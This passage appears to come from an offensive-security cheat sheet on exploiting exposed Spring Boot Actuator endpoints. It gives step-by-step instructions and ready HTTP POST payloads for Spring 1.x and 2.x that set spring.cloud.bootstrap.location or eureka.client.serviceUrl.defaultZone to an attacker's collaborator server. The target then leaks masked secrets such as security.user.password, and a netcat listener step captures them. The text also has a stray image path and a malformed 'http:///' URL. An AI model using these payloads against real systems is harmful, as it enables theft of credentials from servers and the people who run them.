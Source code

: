 #### Conditions of use:

- `/envTrigger` the target to initiate any http request to the specified address on the external network by setting the attribute through `POST`.
- The target can request the attacker's server (the request can go out of the Internet).

#### Steps to use:

- Referring to what was proposed by _UUUUnotfound_, you can use placeholders to bring out data in the URL path when the target sends an external http request

1. Find the property name you want to get
   - GET requests the `/env` or `/actuator/envinterface` of the target website, search for ******keywords, and find the attribute name corresponding to the attribute value masked by the asterisk * to be obtained.

2. Set up a listener for HTTP requests
   - Listen to port 80 on the external network server controlled by yourself. It can be your Burp collaborator, interact.sh, a classic `nc -nlvp 80` or `httpdump :80` ([httpdump on Github](https://github.com/luastan/httpdump))

3. Trigger an outgoing http request
   - Using the **spring.cloud.bootstrap.location** method ( also applicable to the case where there are special URL characters in the plaintext data):

**spring 1.x**
```http
POST /env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://{{ collaborator your.burpcollaborator.net }}/?s=${{{ attribute security.user.password }}}
```

**spring 2.x**

```http
POST /actuator/env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"name":"spring.cloud.bootstrap.location","value":"http://{{ collaborator your.burpcollaborator.net }}/?s={{{ attribute security.user.password }}}"}
```

- **eureka.client.serviceUrl.defaultZone** Method ( not applicable when there are special URL characters in plaintext data):

**spring 1.x**

```
POST /env HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/x-www-form-urlencoded

eureka.client.serviceUrl.defaultZone=http:///{{ collaborator your.burpcollaborator.net }}/${{{ attribute security.user.password }}}
```
